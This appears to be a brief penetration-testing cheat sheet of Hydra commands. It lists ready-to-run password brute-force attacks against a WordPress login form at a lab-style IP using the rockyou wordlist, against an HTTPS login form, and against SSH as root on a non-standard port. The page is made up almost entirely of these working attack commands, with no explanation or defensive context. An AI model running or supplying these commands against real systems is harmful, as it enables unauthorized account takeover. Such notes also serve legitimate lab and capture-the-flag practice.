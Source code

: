 # hydra

## Hydra Usage

### Post attack

```csharp
hydra -l notch -P /usr/share/wordlists/rockyou.txt 10.10.10.37 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

### `Https POST`

```shell
hydra -L users -p PASSWORD <IP> https-post-form "/auth/login:module=auth&action=login&username=^USER^&password=^PASS^:Invalid" -fV  -e nsr 
```

### ssh on exotic port (5622 as an example)

```csharp
 hydra -s 5622 -l root -P /usr/share/seclists/Passwords/darkweb2017-top100.txt <IP> -t 4 -f ssh
```
